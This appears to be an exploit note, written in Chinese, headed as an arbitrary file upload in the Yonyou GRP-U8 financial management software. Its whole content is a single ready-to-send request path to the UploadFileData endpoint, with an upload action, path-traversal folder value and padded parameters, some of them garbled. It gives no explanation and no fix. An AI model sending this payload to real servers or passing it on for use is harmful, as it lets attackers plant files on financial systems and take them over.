 ## 用友GRP-U8财务管理软件任意文件上传

```
/UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=181=1&1=1&1=1&1=1&1=1&1=1&1=1&1=181=1&1=1&1=1&1=181=1&1=1&1=1&foldername=%2e%2e%2f&filename=
```
